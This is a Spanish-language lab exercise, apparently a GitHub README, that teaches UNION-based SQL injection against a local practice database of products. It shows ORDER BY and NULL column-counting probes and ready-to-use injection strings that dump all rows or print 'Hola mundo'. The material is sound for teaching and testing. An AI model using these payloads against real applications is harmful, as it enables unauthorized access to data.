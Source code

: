 
# Previo

Tiene que ser con un phpmyadmin antiguo.
Importamos la BBDD databases.sql


# Saber el número de columnas de la tabla que afecta al formulario
Para que una consulta UNION funcione, se deben cumplir dos requisitos clave:
- Las consultas individuales deben devolver el mismo número de columnas.
- Los tipos de datos de cada columna deben ser compatibles entre las consultas individuales.

Cómo determinar del número de columnas requeridas en un ataque UNION de inyección SQL:
- El primer método consiste en inyectar una serie de cláusulas ORDER BY e incrementar el índice de columna especificado hasta que se produzca un error. Por ejemplo, vamos probando hasta que obtengamos un error, en nuestro caso:
  ```
  999' or '1'='1' UNION SELECT * from articulos order by 4 #
  ```

- El segundo método consiste en enviar una serie de cargas útiles de UNION SELECT que especifican un número diferente de valores nulos. Vamos probando:
  ```
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL–
  ```
  La aplicación podría devolver este mensaje de error, o simplemente podría devolver un error genérico o ningún resultado. Cuando el número de valores nulos coincide con el número de columnas, la base de datos devuelve una fila adicional en el conjunto de resultados, que contiene valores nulos en cada columna.


# Consulta que muestra todos los productos
![](capturas/sql-injection-lab1.png)

![](capturas/sql-injection-lab1-2.png)

![](capturas/sql-injection-lab1-3.png)

Así descubrimos con la tabla que surte al formulario tiene 3 columnas.

Consulta SQL:
```
SELECT * from articulos where Nombre = '999' or '1'='1' UNION SELECT null, null, null from articulos #
```
Inyecciones que muestran todos los productos:
```
999' or '1'='1' UNION SELECT null, null, null from articulos #
999' or '1'='1' UNION SELECT * from articulos #
```

![](capturas/sql-injection-lab1-4.png)


# Muestra el mensaje “Hola mundo” usando SQL Injection
Consulta SQL:
```
SELECT * from articulos where Nombre = '999' UNION SELECT null, null, 'Hola mundo' from dual #
```
Inyección:
```
999' UNION SELECT null, null, 'Hola mundo' from dual #
```
![](capturas/sql-injection-lab1-5.png)
